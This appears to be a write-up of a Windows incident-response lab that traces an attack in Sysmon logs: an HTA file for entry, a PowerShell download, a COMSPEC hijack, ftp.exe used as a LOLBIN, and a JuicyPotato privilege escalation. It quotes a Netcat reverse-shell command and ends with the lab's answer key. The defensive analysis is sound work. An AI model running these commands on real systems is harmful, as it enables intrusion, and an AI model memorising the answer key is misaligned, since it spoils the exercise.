




## Overview

A Windows endpoint was compromised and Sysmon logs were collected for analysis. The goal is to trace the attacker's steps from initial access through to privilege escalation, identifying the tools, techniques, and commands used along the way.

---
## Investigation

### Initial Access — HTA File

The first thing to check is how the attacker got in. Grepping the Sysmon logs for `.hta` files points straight to the entry:

```zsh
cat sysmon-events.json | grep -i ".hta"
```

The file `updater.hta` shows up as the initial access vector. HTA (HTML Application) files are a classic way to execute arbitrary code on Windows because `mshta.exe` runs them with elevated scripting privileges and often bypasses simple file-type controls.


---

### Malware Delivery — PowerShell Download

Searching for PowerShell activity reveals how the attacker staged their malware:


```zsh
cat sysmon-events.json | grep -i "invoke"
```

The `Invoke-WebRequest` cmdlet was used to pull down a file over port **6969**. The attacker also set an environment variable to redirect execution:
```
comspec=c:\Windows\temp\supply.exe
```

Setting `COMSPEC` is a neat trick — normally it points to `cmd.exe`, so any process that spawns a shell using that variable will execute the attacker's binary instead.


---

### Living Off the Land — ftp.exe

Looking at the process tree around `supply.exe`, `ftp.exe` stands out as a LOLBIN being used to execute malicious commands. `ftp.exe` is a legitimate Windows binary that can be abused to run commands outside of the normal `cmd.exe` or `powershell.exe` path, helping the attacker stay under the radar.

---

### Execution and Recon

With `supply.exe` running as the fake `COMSPEC`, the malware starts executing commands. The first one observed is a basic recon command:
```
ipconfig
```

Multiple instances of the same command fire at once, which is consistent with Python-based malware spawning parallel subprocess calls. Checking the dependency events around `supply.exe` — DLLs loaded, runtime libraries present — confirms the malware is written in **Python**, likely compiled to an EXE with something like PyInstaller.


---

### Privilege Escalation — JuicyPotato

The malware then reaches out to download a well-known privilege escalation tool:
```
hxxps[://]github[.]com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

JuicyPotato is a classic Windows token impersonation exploit that targets COM objects with impersonation privileges. The command line captured in the logs shows the full execution:
```
C:\windows\temp\supply.exe /c "juicy.exe -l 9999 -p nc.exe -a "192[.]168[.]1[.]11 9898 -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}"
````

The attacker used JuicyPotato to launch `nc.exe` (Netcat), connecting back to `192[.]168[.]1[.]11` on port **9898** with `-e cmd.exe` to drop a full interactive shell.


---

## IOCs

| Type           | Value                                                                             |
| -------------- | --------------------------------------------------------------------------------- |
| File           | `updater.hta`                                                                     |
| File           | `supply.exe`                                                                      |
| File           | `juicy.exe`                                                                       |
| File           | `nc.exe`                                                                          |
| URL            | `hxxps[://]github[.]com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe` |
| IP             | `192[.]168[.]1[.]11`                                                              |
| Port           | `6969` (malware delivery)                                                         |
| Port           | `9898` (reverse shell)                                                            |
| Port           | `9999` (JuicyPotato listener)                                                     |
| Registry / Env | `comspec=c:\Windows\temp\supply.exe`                                              |
| CLSID          | `{B91D5831-B1BD-4608-8198-D72E155020F7}`                                          |

---


---

<div class="qa-item"> <div class="qa-question-text">What is the file that gave access to the attacker?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">updater.hta</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the powershell cmdlet used to download the malware file and what is the port?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">INvoke-WebRequest, 6969</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the name of the environment variable set by the attacker?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">comspec=c:\Windows\temp\supply.exe</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the process used as a LOLBIN to execute malicious commands?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">ftp.exe</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Malware executed multiple same commands at a time, what is the first command executed?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">ipconfig</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Looking at the dependency events around the malware, can you able to figure out the language, the malware is written</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">python</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Malware then downloads a new file, find out the full url of the file download</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the port the attacker attempts to get reverse shell?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">9898</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>
